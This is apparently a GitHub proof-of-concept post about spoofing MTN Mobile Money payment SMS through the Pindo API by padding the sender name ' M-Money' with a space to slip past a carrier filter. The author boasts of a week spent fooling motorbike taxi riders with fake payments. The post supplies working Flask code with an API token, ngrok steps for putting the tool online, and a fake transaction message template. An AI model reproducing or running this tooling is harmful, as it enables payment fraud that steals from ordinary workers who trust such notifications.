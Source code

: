 # Proof of concept 

Hy all I Hope you're doing Great! I've got some wild news to share about the Pindo API that'll probably blow your mind. 🔥
but first i have to clear one thing out. this is for educational purposes only .. don't attempt to do something funny or you will get arrested.

So While diving deep into the tech ocean, I stumbled upon something that had me raising an eyebrow. It turns out that there's this ninja-like way users can play around with the system. By sneaking in spaces before or after a company name in messages, it's like a digital cloak that can turn anyone into a master of disguise. Cool, right?

But wait, it gets even cooler. I went ahead and put this thing to the test. Sent some money via MTN Mobile Money and guess what? The name checking seems to be on a coffee break. I kid you not, I’ve been moving around sending money to people back and forth to check if the whole thing works .. for a whole week its like I have a money tank or something 😂😂😂😂😂😂… the easiest target was motorbikes of course .. this thing was intoxicating.. Because they’re the ones who only check for the amount money that was received but never open the whole message 😆.. I don’t know why they appealed to me like an easy target TBH. 😎

But fear not, the good news is, I've got your back. I've done some digging, and MTN's firewall seems to be on the lookout for messages that scream "M-Money." That's where the magic happens to put it simply mtn's firewall rules are only set to detect message that has exactly "M-Money" as message title . Toss in a sly space, like "M-Money " and you're basically a mobile money wizard. Seriously, it's like you've sent money to someone without even breaking a sweat.

Now, here's where the plot thickens. It's a slick move for folks who've got places to be and only peek at their messages and the cash flow. Caught a few curious cats, though, ones who've got an eye for detail. Can't fool everyone, right? 😄

Now, I'm not just here to tease you with tech tales. I've got something in store. I've whipped up a POC, a proof of concept, that'll show you this slick space trick in action Check it out and let me know what you think.

```python
from flask import Flask, render_template, request, redirect, flash
from flask_wtf import FlaskForm
from wtforms import StringField, TextAreaField
from wtforms.validators import DataRequired
from flask_sqlalchemy import SQLAlchemy
import requests

app = Flask(__name__)
app.config['SECRET_KEY'] = 'idontdrinkmyownpee'
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///messages.db'  # Use SQLite database
db = SQLAlchemy(app)

class SMSForm(FlaskForm):
    numbers = StringField('Phone Numbers (comma-separated)', validators=[DataRequired()])
    message = TextAreaField('Message', validators=[DataRequired()])

class Message(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    numbers = db.Column(db.String(255), nullable=False)
    message = db.Column(db.String(255), nullable=False)

PINDO_API_TOKEN = 'eyJhbGciOiJub25lIn0.eyJpZCI6OTgyLCJyZXZva2VkX3Rva2VuX2NvdW50IjowfQ.'

@app.route('/', methods=['GET', 'POST'])
def send_sms():
    form = SMSForm()

    if form.validate_on_submit():
        numbers = form.numbers.data
        message = form.message.data

        numbers_list = [num.strip() for num in numbers.split(',')]

        headers = {'Authorization': 'Bearer ' + PINDO_API_TOKEN}
        url = 'https://api.pindo.io/v1/sms/'

        with app.app_context():  # Enter the application context
            for number in numbers_list:
                data = {'to': number, 'text': message, 'sender': ' M-Money'}
                response = requests.post(url, json=data, headers=headers)

                print(f'Sending to {number}: {response.status_code}')

                # Store the sent message in the database
                new_message = Message(numbers=number, message=message)
                db.session.add(new_message)
                db.session.commit()

            flash('SMS sent successfully!', 'success')
            return redirect('/')

    return render_template('index.html', form=form)

if __name__ == '__main__':
    with app.app_context():  # Enter the application context
        db.create_all()  # Create database tables
    app.run(debug=True)
```

you can use my pindo api token for configuration but you can easily get your token when you sign in … matter of fact you don’t even have to use legitimate information … as long as you have a google account you’re good to go when you sign in to pindo you check your profile for the token and use the same token but its worth checking it out explore yourself 
then then when you run `python3 app.py` considering that you’ve named your script app.py
it runs locally on address 172.0.0.1:5000 on port 5000 because flasks projects typically runs on port 5000

and then to make the app available to the internet by port forwarding it manually or use this tool(NGROK) i used ngrok of course am not gonna talk about it but you can get an account right now if you have google account [https://dashboard.ngrok.com/signup](https://dashboard.ngrok.com/signup) you can also create ngrok accoung to get their token for free without providing your personal deatails and here’s the link to download it using git clone [https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz](https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz) .. after downloading you check the file type and unzip it using gzip -d “filename” and when the unzip is done the file will come with .tar extension use tar xvf to unarchive it . and then run
`ngrok config add-authtoken "token"`  you’ll use your personal token and after configuring you run it with ./ngrok http 5000 and when you its fully operational you can copy the link provided and paste it in your browser address and then you see something like this and then you make ngrok run on the same project run on port 5000 as soon as you the local application is on the internet you get an url you input in your browser for sending messages and now when you send the message its like this …..

i used this template as a message 

`You have received 20000 RWF from UWERA MARIE CLAIRE (*********876) on your mobile money account at 2023-08-10 03:27:39. Message from sender: 1. Your new balance: 2018 RWF. Loyalty fee was 0 and loyalty reward was 0. Promotion was 0. Financial Transaction Id: 10438338079.`

of course you edit the message to make it look legitimate and when you hop on off the bike you send your imaginary money then you’re good to go.
thats was cool right?

Happy hacking.
